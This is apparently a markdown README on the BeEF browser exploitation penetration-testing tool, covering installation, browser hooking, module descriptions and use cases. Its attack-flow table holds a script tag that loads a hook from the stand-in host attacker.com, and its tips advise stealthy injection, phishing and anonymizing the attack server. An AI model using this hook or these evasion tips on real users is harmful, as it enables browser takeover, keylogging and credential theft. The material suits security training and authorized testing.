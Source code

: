 
# 🐟 BeEF (Browser Exploitation Framework)

## 📌 Overview

**BeEF** is an open-source penetration testing tool that focuses on leveraging browser vulnerabilities and user interaction to assess the security posture of a target. Unlike traditional frameworks that focus on network or host exploitation, BeEF specializes in exploiting the web browser as the attack vector.

> 🎯 **Purpose:** Hook a target’s browser to execute commands, gather information, or launch further attacks — all through social engineering and client-side exploits.

---

## 🔑 Key Features

- 🐟 **Browser Hooking:** Inject a JavaScript “hook” to control the victim’s browser.    
- 🧩 **Modular Architecture:** 100+ modules for various attacks (e.g., keylogging, webcam access, social engineering).
- 🔄 **Real-Time Command Execution:** Interact with the hooked browser live.
- 🔍 **Client-side Reconnaissance:** Collect system, browser, and network info.
- 📡 **Pivoting:** Use the hooked browser as a beachhead for further attacks.
- 📜 **Customizable Hooks:** Craft phishing pages, inject payloads.

---

## 🚀 Installation

### On Kali Linux (pre-installed)

```
sudo service postgresql start
```

```
sudo beef-xss
```

### Manual Installation (Ubuntu/Debian)

```
git clone https://github.com/beefproject/beef.git
```

```
cd beef
```

```
./install
```

```
./beef
```

---

## 🧭 How It Works

1. **Hook Injection:** Victim visits a webpage containing the BeEF hook JavaScript snippet.
2. **Browser Hooked:** The hook connects back to the BeEF server.
3. **Control Panel:** Attacker uses a web interface to run commands on the victim’s browser.
4. **Modules:** Select and execute modules against the hooked browser.

---
## ⚙️ Typical Attack Flow

| Step                 | Description                                                                                             |
| -------------------- | ------------------------------------------------------------------------------------------------------- |
| 1. Hook Injection    | Embed `<script src="http://attacker.com:3000/hook.js"></script>` in a phishing page or injected content |
| 2. Victim Loads Page | Victim’s browser loads the hook and connects to BeEF server                                             |
| 3. Attacker Controls | Use BeEF UI to run modules: keylogger, social engineering prompts, webcam access                        |
| 4. Further Exploits  | Pivot to internal network, capture credentials, or perform MITM                                         |

---

## 🔧 Popular Modules

| Module                   | Description                                                |
| ------------------------ | ---------------------------------------------------------- |
| **Keylogger**            | Capture keystrokes in real time                            |
| **Webcam Snap**          | Take pictures via victim’s webcam (if permissions granted) |
| **Geolocation**          | Retrieve victim’s physical location                        |
| **Social Engineering**   | Pop-up dialogs, fake alerts, fake login forms              |
| **Network Info**         | Gather local IP, hostname, and other environment data      |
| **Port Scanner**         | Scan victim’s internal network from browser                |
| **Credential Harvester** | Capture form inputs on pages                               |

---

## 🛡️ Use Cases

- Phishing & social engineering engagements    
- Client-side vulnerability assessments
- Testing browser and extension security
- Demonstrating real risks of client-side attacks

---
## 🧠 Pro Tips

- Combine BeEF with phishing frameworks to maximize social engineering impact.    
- Use stealthy hook injection to avoid user suspicion.
- Regularly update BeEF to leverage latest browser exploits.
- Use VPN/proxies to anonymize the BeEF server.
